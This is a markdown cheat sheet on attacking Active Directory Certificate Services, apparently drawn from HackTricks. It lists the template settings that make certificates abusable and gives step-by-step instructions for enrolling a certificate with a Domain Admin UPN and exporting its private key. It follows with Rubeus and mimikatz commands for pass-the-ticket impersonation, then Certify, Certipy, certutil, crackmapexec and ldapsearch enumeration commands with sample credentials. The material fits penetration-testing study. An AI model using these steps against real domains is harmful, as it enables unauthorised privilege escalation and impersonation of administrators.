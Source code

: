 # AD Certificates Exploitation and Enumeration

# ADCS Various Exploitation methods and misconfigurations

## Resources are mostly from: hacktricks.xyz

## Possible tools to use: PSPKIAudit, Certify https://github.com/GhostPack/Certify , Certipy https://github.com/ly4k/Certipy , Certi https://github.com/zer1t0/certi , modifyCertTemplate https://github.com/fortalice/modifyCertTemplate

## Poisonous parameter combination on certificates

#### 1) Client Authentication = Can be used for client authentication

#### 2) Certificate Permissions = We have the required permissions to use the certificate template (Allow enroll/Allow Full Control)

#### 3) CT_FLAG_ENROLEE_SUPPLIES_SUBJECT = The certificate template allows us to specify the Subject Alternative Name (SAN) (Value=1)

#### 4) CTPRIVATEKEY_FLAG_EXPORTABLE_KEY = The certificate will be exportable with the private key

## TIP: Disable Restricted Admin mode

#### 1) Start -> Run

#### 2) mmc 

#### 3) Click file -> Add/Remove Snap-in

#### 4) Add the certificates snap-in and make sure to select Computer Account and Local computer on the prompts

#### 5) OK

## Request a personal certificate

#### 1) Right click on Personal and select All Tasks -> Request New Certificate

#### 2) Click Next twice to select the AD Enrollment policy

#### 3) You will see that we have one template that we can request, but first, we need to provide additional information.

#### 4) More information warning (click)

#### 5) Change the Subject name Type option to Common Name and provide any value, since it doesn't matter, and click Add.

#### 6) Change the Alternative name Type option to User Principal Name (UPN)

#### 7) Supply the UPN of the user you want to impersonate ( It can be a Domain Admin account NAME@DOMAIN and click Add

#### 8) Apply and OK. Select certificate and click Enroll

## Export Certificate

#### 9) Right click on the certificate and select ALL Tasks -> Export 

#### 10) Click next, select yes, export the private key, then next

#### 11) Next, then set password for the certificate since the private key cannot be exported without a password

#### 12) Next and select a location to store certificate

#### 13) Next and Finally, Finish.

## Impersonation through a certificate

#### 1) Rubeus.exe asktgt /user:USER /enctype:aes256 /certificate:PATH/TO/CERTIFICATE /password:CERT_PASS /outfile:TICKET.KIRBI /domain:DOMAIN /dc:DC_IP

#### 2) mimikatz.exe

#### 3) privilege::debug

#### 4) kerberos::ptt TICKET.KIRBI

#### 5) exit

#### 6) ENJOY!

# AD Certificate Services Enumeration

### AD's certificate services can be enumerated through LDAP queries, revealing information about Enterprise Certificate Authorities (CAs) and their configurations. This is accessible by any domain-authenticated user without special privileges. Tools like Certify and Certipy are used for enumeration and vulnerability assessment in AD CS environments.

## Commands:

 - Certify.exe cas (Enumerate trusted root CA certificates and Enterprise CAs with Certify)

 - Certify.exe find /vulnerable (Identify vulnerable certificate templates with Certify)

 - certipy find -vulnerable -u john@corp.local -p Passw0rd -dc-ip 172.16.126.128 (Use Certipy for enumeration and identifying vulnerable templates)

### Enumerate Enterprise CAs and certificate templates with certutil

 - certutil.exe -TCAInfo

 - certutil -v -dstemplate
 
 - certutil.exe -config - -ping , certutil -dump (Enumerate AD Enterprise CAs)

 - crackmapexec ldap domain.lab -u username -p password -M adcs (Find ADCS server)

 - ldapsearch -H ldap://dc_IP -x -LLL -D 'CN=USER,OU=USERS,DC=DOMAIN,DC=LOCAL' -w 'PASSWORD' -b "CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=CONFIGURATION,DC=DOMAIN,DC=LOCAL" dNSHostName
